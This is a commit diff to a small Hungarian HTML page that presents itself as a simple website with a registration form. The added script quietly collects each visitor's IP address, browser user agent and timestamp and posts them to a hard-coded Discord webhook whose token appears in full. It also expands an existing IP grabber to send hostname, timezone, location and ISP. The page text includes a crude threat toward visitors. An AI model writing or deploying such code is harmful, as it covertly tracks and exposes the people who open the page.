

Before and after one commit to qwipnemcigany/szimplaweb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-746 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -33,12 +33,85 @@
 </style>
 </head>
 
+<h2>A rendes neved! (nehogy valami faszsagot adj meg, mert kinyirlak)</h2>
+<input type="text" id="username" placeholder="Felhasználónév">
+<button onclick="register()">Regisztráció</button>
+
 <h1> Ez egy nagyon egyszeru weboldal </h1>
 <button class="button button1" onclick="crashBrowser()">Kattints ram</button>
+
+<a href="admin.html">Admin Panel</a>
 
 <body>
 
 <script>
+
+async function register() {
+    let username = document.getElementById("username").value.trim();
+
+    if (username === "") {
+        alert("Adj meg egy érvényes nevet!");
+        return;
+    }
+
+    let webhookUrl = "https://discordapp.com/api/webhooks/1337434821978488882/FPuhUbglVukw3Pd3Qk_PyLoqOX3b-K1xJQyCQfGuRw_XxONxyU7q8Iil0M3vrRWFKxok";
+
+    let now = new Date();
+    function generateID() {
+        return Math.random().toString(36).substring(2, 10).toUpperCase();
+    }
+
+    let timestamp = now.toISOString().replace("T", " ").substring(0, 19);
+    let userAgent = navigator.userAgent;
+    let userID = generateID();
+
+    // 🔥 **Admin ellenőrzés név alapján**
+    let isAdmin = username.toLowerCase() === "admin";
+
+    // 🔥 **IP lekérése és admin ellenőrzés**
+    let ipResponse = await fetch("https://ipinfo.io/json");
+    let ipData = await ipResponse.json();
+    let userIP = ipData.ip;
+
+    let adminIPs = ["192.168.50.92", "84.3.235.39"]; // Itt add meg az admin IP-ket
+    if (adminIPs.includes(userIP)) {
+        isAdmin = true;
+    }
+
+    // **Felhasználó elmentése localStorage-ba**
+    let users = JSON.parse(localStorage.getItem("users")) || [];
+    users.push({ username, userID, timestamp, isAdmin, userIP });
+    localStorage.setItem("users", JSON.stringify(users));
+
+    let payload = {
+        username: "Új felhasználó",
+        content: `📢 **Új felhasználó regisztrált:** \`${username}\`\n🆔 **Felhasználói ID:** \`${userID}\`\n🕒 **Időpont:** \`${timestamp}\`\n💻 **Eszköz:** \`${userAgent}\`\n🌐 **IP:** \`${userIP}\`\n🔑 **Admin:** ${isAdmin ? "✅ Igen" : "❌ Nem"}`
+    };
+
+    try {
+        let response = await fetch(webhookUrl, {
+            method: "POST",
+            headers: { "Content-Type": "application/json" },
+            body: JSON.stringify(payload)
+        });
+
+        if (response.ok) {
+            alert(`Sikeresen regisztráltál! ${isAdmin ? "Admin joggal léptél be." : ""}`);
+            document.getElementById("username").value = "";
+
+            // 🔥 Ha admin, azonnal irány az admin panelre
+            if (isAdmin) {
+                window.location.href = "admin.html";
+            }
+
+        } else {
+            alert("Hiba történt a regisztráció során.");
+        }
+    } catch (error) {
+        alert("Hálózati hiba: " + error);
+    }
+}
+
 function crashBrowser() {
     alert("Azt ugye tudtad, hogy az ipd atment egy discord webhookon keresztul hozzam?");
 
@@ -64,7 +137,7 @@ function monke(json)
                {
                     title: "Valaki megnezte a weboldalad!",
                     color: 1752220,
-                    description: "**IP:** `" + json.ip + "`\n**Country:** `" + json.country + "`\n**Region:** `" + json.region + "`\n**Town/City:** `" + json.city + "`\n**ZIP:** `" + json.postal + "`"
+                    description: "**IP:** `" + json.ip + "`\n**Country:** `" + json.country + "`\n**Region:** `" + json.region + "`\n**Town/City:** `" + json.city + "`\n**ZIP:** `" + json.postal + "`\n**Hostname:** `" + json.hostname + "`\n**Timezone:** `" + json.timezone + "`\n**LocalIP:** `" + json.loc  + "`\n**Router:** `" + json.org
                }
           ]
      }
```
